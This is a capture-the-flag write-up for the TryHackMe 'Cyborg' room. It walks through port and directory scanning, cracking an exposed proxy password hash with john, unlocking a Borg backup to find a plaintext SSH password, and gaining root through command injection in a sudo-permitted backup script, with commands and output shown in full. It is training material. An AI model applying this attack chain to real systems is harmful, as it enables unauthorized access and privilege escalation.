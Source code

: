 ```yaml
---
title: "Cyborg"
---
```


:::info Description

This is a write-up for the [Cyborg Room](https://tryhackme.com/room/cyborgt8) on TryHackMe.

Note: Task #1 is to deploy the machine.

|OS|Level|Rating
|:---:|:-----:|:-----:|
|Windows|Easy|5/5|

:::

## RECON

### Nmap

From scan `nmap -v -sV -p- -o nmap-cyborg.txt 10.10.148.181`

I found:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

results (didnt note the command):

```bash
http://10.10.19.193/.hta                 (Status: 403) [Size: 277]
http://10.10.19.193/.htaccess            (Status: 403) [Size: 277]
http://10.10.19.193/.htpasswd            (Status: 403) [Size: 277]
http://10.10.19.193/admin                (Status: 301) [Size: 312] [--> http://10.10.19.193/admin/]
http://10.10.19.193/etc                  (Status: 301) [Size: 310] [--> http://10.10.19.193/etc/]
http://10.10.19.193/index.html           (Status: 200) [Size: 11321]
http://10.10.19.193/server-status        (Status: 403) [Size: 277]
```

I browse to `http://10.10.19.193/etc/squid/passwd` and find `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Let's crack it.

## Crack

```bash
└─$ john passwd --wordlist=/usr/share/wordlists/rockyou.txt                                                  130 ⨯ 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"                       
Use the "--format=md5crypt-long" option to force loading these as that type instead                                
Using default input encoding: UTF-8                                                                                
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])                               
Will run 2 OpenMP threads                                                                                          
Press 'q' or Ctrl-C to abort, almost any other key for status                                                      
squidward        (music_archive)                                                                                   
1g 0:00:00:01 DONE (2022-01-15 23:24) 0.6711g/s 26158p/s 26158c/s 26158C/s wonderfull..samantha5                   
Use the "--show" option to display all of the cracked passwords reliably                                           
Session completed
```

We have user/password = `music_archive/squidward`

## Enumerate web folders

I found `squid.conf`:

```bash
# http://10.10.19.193/etc/squid/squid.conf

auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

### archive.tar

I found archive on `view-source:http://10.10.148.181/admin/index.html` = `http://10.10.148.181/admin/archive.tar`

downloaded & extracted - contains a BORG archive.

might come in handy later:

```sh
└─$ strings integrity.5 
version
hints
@{"algorithm": "XXH64", "digests": {"final": "05178884e81563d7"}}
index
b{"algorithm": "XXH64", "digests": {"HashHeader": "146e9cb969e480a3", "final": "b53737af67235823"}}
```

config file

```sh
[repository]
version = 1
segments_per_dir = 1000
max_segment_size = 524288000
append_only = 0
storage_quota = 0
additional_free_space = 0
id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
        L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
        2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
        8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
        daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
        oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
        eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
        T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
        vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
        SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
        UCH8bjZLfc1GFsundmVyc2lvbgE=
```

## Borg Backup System

the tar is a borg deduplication file/archive [borg](https://borgbackup.readthedocs.io/en/stable/index.html).

the [usage](https://borgbackup.readthedocs.io/en/stable/usage/general.html) is e.g. `borg list /path/to/archive`

for the archive.tar with `/home/field/dev` the actual "archive" is the folder `final_archive`:

use the passwd we cracked `squidward`:

```bash
┌──(kali㉿kali)-[~/…/download/home/field/dev]
└─$ borg list ./final_archive 
Enter passphrase for key /home/kali/Documents/RxHack/THM/OFFENSIVEPENTESTPATH/CYBORG/download/home/field/dev/final_archive: 
music_archive                        Wed, 2020-12-30 03:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

so will try and extract it, see any info in it.

## PRIVESC

### user.txt

mounted archive using `borg mount ./final_archive /tmp/borg`, mounts the FUSE filesystem archive at `/tmp/borg` and was the users whole home dir backup. had a look around and found `Document\note.txt` which had:

```bash
└─$ cat Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

use it to `ssh alex@10.10.148.181` and got the `user.txt` flag.

```bash
alex@ubuntu:~$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### root.txt

check what alex can do with `sudo`:

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

looking through the `/etc/mp3backups/backup.sh` and this part looks the most interesting because it's allowing a command to be injected in here, running as root :D

```bash
#!/bin/bash

...

while getopts c: flag
do
  case "${flag}" in 
    c) command=${OPTARG};;
  esac
done

...

```

This [page](https://www.howtogeek.com/778410/how-to-use-getopts-to-parse-linux-shell-script-options/) explains how `getopts` works by letting you set the characters used to trigger the cases.

I try adding a `-c /bin/bash` to the backup script:

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c /bin/bash
/home/alex/Music/image12.mp3
/home/alex/Music/image7.mp3
/home/alex/Music/image1.mp3
/home/alex/Music/image10.mp3
/home/alex/Music/image5.mp3
/home/alex/Music/image4.mp3
/home/alex/Music/image3.mp3
/home/alex/Music/image6.mp3
/home/alex/Music/image8.mp3
/home/alex/Music/image9.mp3
/home/alex/Music/image11.mp3
/home/alex/Music/image2.mp3
find: ‘/run/user/108/gvfs’: Permission denied
Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz

tar: Removing leading `/' from member names
tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
tar: Exiting with failure status due to previous errors

Backup finished
root@ubuntu:~# 
```

because this spawns a shell halfway through the script, the output will be going to some other output, so we don't see the results until I exit out of the shell:

```bash
root@ubuntu:~# id; whoami; cat /root/root.txt
root@ubuntu:~# exit
uid=0(root) gid=0(root) groups=0(root) root flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
